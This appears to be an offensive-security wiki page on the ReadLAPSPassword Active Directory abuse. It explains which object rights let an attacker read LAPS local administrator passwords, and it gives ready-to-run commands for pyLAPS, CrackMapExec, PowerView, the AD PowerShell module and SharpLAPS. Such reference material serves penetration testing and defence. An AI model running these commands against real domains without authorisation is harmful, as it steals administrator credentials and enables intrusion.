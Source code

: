 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [CrackMapExec](https://github.com/mpgn/CrackMapExec) also has this ability (since v5.1.6).. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.&#x20;

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://simondotsh.com/infosec/2022/07/11/dirsync.html" %}
